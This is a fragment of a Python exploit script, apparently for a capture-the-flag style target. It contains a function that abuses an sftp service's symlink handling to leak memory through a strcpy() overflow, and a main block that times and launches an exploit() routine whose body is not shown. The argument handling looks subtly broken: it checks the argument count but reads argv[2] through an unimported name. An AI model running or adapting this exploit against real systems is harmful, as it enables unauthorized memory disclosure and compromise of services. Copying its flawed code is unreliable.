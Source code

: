 ```python
#         Utility Functions             #
#                                       #
#########################################

def sleep_until(t):
	log.info("Waiting %d seconds... " % (t - libc.time(0)))
	time.sleep(t - time.time())


def verify_pred():
	'''
		[*] Note: 
			This is a standalone function. 
			Meaning: DON'T CALL verify_pred() AND exploit()!

		Functionality:
			- Verify a prediction based on an `strcpy()` leak in `entry->name`.
	'''
	pred = prediction()
	r.sendline('yes')
	r.sendline(PASSWORD)
	r.sendline('mkdir target')
	r.sendline('symlink target link_AAAAAAAAAAAAAABasdf')
	r.sendline('ls')
	r.recvuntil('AAAAAAAAAAAAAAB')
	leak = r.recvuntil('\nsftp>')
	leak = u32(leak.ljust(4,'\x00'))

	info("leak: 0x%x", leak)
	info("pred: 0x%x", pred)

if __name__ == '__main__':
	do_debug = False
	
	if len(sys.argv) > 1:
		if argv[2] == '-L' or argv[2] == '-l':
			do_debug = True
	
	match = find_good_time(libc.time(0))
	exploit(match, do_debug)
```
